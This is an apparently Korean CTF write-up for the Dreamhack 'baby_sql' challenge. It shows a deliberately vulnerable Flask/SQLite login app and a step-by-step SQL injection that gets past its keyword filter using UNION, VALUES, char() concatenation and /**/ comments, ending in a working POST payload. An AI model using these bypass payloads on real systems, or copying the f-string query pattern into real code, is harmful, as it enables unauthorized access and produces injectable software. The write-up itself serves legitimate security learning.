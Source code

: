 ```yaml
---
title: baby_sql
author: sally
date: 2024-01-19 01:04:00 +0900
categories: [Dreamhack, Web]
tags: [web, sql injection, level1]
img_path: /assets/img/posts/20240119/
---
```


## 문제
![login](baby_sql/login.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

## 풀이 방법
**app.py**
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
  top = _app_ctx_stack.top
  if not hasattr(top, 'sqlite_db'):
    top.sqlite_db = sqlite3.connect(DATABASE)
  return top.sqlite_db


try:
  FLAG = open('./flag.txt', 'r').read()
except:
  FLAG = '[**FLAG**]'


@app.route('/')
def index():
  return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
  if request.method == 'GET':
    return render_template('login.html')

  uid = request.form.get('uid', '').lower()
  upw = request.form.get('upw', '').lower()
  level = request.form.get('level', '9').lower()

  sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
  for x in sqli_filter:
    if uid.find(x) != -1:
      return 'No Hack!'
    if upw.find(x) != -1:
      return 'No Hack!'
    if level.find(x) != -1:
      return 'No Hack!'


  with app.app_context():
    conn = get_db()
    query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
    try:
      req = conn.execute(query)
      result = req.fetchone()

      if result is not None:
        uid = result[0]
        if uid == 'admin':
          return FLAG
    except:
      return 'Error!'
  return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
  top = _app_ctx_stack.top
  if hasattr(top, 'sqlite_db'):
    top.sqlite_db.close()


if __name__ == '__main__':
  os.system('rm -rf %s' % DATABASE)
  with app.app_context():
    conn = get_db()
    conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
    conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
    conn.commit()

  app.run(host='0.0.0.0', port=8001)
```

문제 파일 코드를 간단히 설명하면 다음과 같다.

1. **sqlite3 db** 사용
2. users table 생성 (userid, userpassword, level)
3. ('dream','cometrue',9) 를 삽입
4. `query` 실행 후 맨 처음 값이 admin 이면 플래그 획득
5. 요청 값은 반드시 **POST** 로 보내야 함.

### 필터링
이번 문제에서는 필터링이 추가되었다.
```python
sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
```

싱글쿼터 더블쿼터랑 admin 문자열을 사용할 수 없고, 공백을 사용할 수 없다. 


## 문제 풀이
### admin 출력
문제를 보면 `admin` 계정이 없다. 
하지만 `uid`가 `admin` 인지 확인하는 코드는 없다. 
단지, query 결과문의 첫 번째 uid 값이 `admin` 인지만 확인할 뿐이다. 
따라서 `admin`이 출력되게만 하자고 생각했다.

아래의 사이트에서 간단하게 쿼리문 테스트들이 가능하다. 
- https://www.sqlitetutorial.net/tryit/query/sqlite-select/#1

sqlite는 내가 잘 모르기 때문에 진짜 웹 사이트를 전부 뒤져보다가 `values` 라는 함수를 찾을 수 있었다.
```sql
values("admin")
```
| colomn1                      |
|:-----------------------------|
| admin                        |


### admin 필터링 우회
sqlite의 concat 은 `||` 이다. 이건 금방 찾았음.
그리고 문자는 `chr` 함수가 있었다. 이건 사이트를 하도 많이 돌아다니다가 얻어 걸렸다. 
```sql
values(char(97)||char(100)||char(109)||char(105)||char(110))
```
| colomn1                      |
|:-----------------------------|
| admin                        |

### uid 컬럼
uid 컬럼명을 세팅해주어야 하는데 기존 쿼리문은 다음과 같다.
```sql
SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};
```

두 쿼리문의 결과를 합쳐주는 `union` 을 사용해주자.

- uid = "' union values(char(97)||char(100)||char(109)||char(105)||char(110))--"
```sql
SELECT uid FROM users WHERE uid='' union values(char(97)||char(100)||char(109)||char(105)||char(110))--' and upw='{upw}' and level={level}; 
```
| uid   |
|:------|
| admin |

### space 우회
이건 제로가 알려준 `/**/`를 사용했다.
```sql
SELECT uid FROM users WHERE uid=''/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))--' and upw='{upw}' and level={level};
```
| uid   |
|:------|
| admin |

### 싱글쿼터 우회
마지막으로 싱글쿼터 우회가 하나 남았다. 
코드를 보면 level 에서는 싱글쿼터를 사용하지 않기 때문에 그냥 싱글쿼터 없이 써주면 된다.
뒤에 주석은 필터링이 없어서 써도 되는데 어차피 쿼리 마지막 부분이라 굳이 주석 쓸 필요가 없다. 
```sql
SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level=999/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110));
```

### POST
#### 사용 툴
- Burp Suite Community Edition

POST 값을 확인하고 수정하기 위해서 위의 툴을 사용하였다.

![1](baby_sql/burpsuite1.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

level 값이 없기 때문에 추가해서 사용해주면 된다. 

![2](baby_sql/burpsuite2.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

```
uid=abc&upw=def&level=999/**/UNION/**/values(char(97)||char(100)||char(109)||char(105)||char(110))
```

플래그를 획득할 수 있었다.
